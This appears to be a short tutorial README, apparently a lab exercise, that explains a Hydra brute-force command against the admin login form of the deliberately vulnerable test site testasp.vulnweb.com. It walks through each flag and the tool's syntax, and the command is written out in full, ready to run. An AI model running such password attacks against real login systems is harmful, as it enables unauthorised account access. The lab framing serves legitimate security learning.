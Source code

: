 # BruteForce_Hydra

Target: http://testasp.vulnweb.com/Login.asp?RetURL=%2FDefault%2Easp%3F
Login name: admin

Command: 
## hydra -l admin -P /usr/share/wordlists/rockyou.txt testasp.vulnweb.com http-post-form "/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^User^&tfUPass=^PASS^:S=logout" -vV -f

what the command does:
Using **hydra**. **-l admin** = using admin as login name. **-P /usr/share/wordlists/rockyou.txt** = Using rockyou.txt dictionary and where it is located. **http://testasp.vulnweb.com/** = IP ADDRESS. **http-post-form** = http module. **"/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^User^&tfUPass=^PASS^:S=logout"** = 3parts, part 1 **/Login.asp?RetURL=%2FDefault%2Easp%3F:** = URL, part 2 **tfUName=^User^&tfUPass=^PASS^:** = where to input username and password, part 3 **S=logout** = find whatever is in the page after succesfully logged in. **-vV** 2 part, part 1 **v** = Verbose mode detailed information or printout during the execution of a program, part 2 **V** = show login:pass for each attempt. **-f** = Terminate program if pair login:password is found.

How hydra is build:

[-l LOGIN|-L FILE] [-p PASS|-P FILE] [-u] [-f] [IP ADDRESS] [-s PORT] [MODULE] [URL]

1. [-l LOGIN|-L FILE]: Using login name or dictionary 
2. [-p PASS|-P FILE]: using password or dictionary
3. [-u]: every user  
4. [-f]: stop on first name
5. [IP ADDRESS]:
6. [-s PORT]: Target Port
7. [MODULE]: Which section (ssh, http, etc.)
8. [URL]:




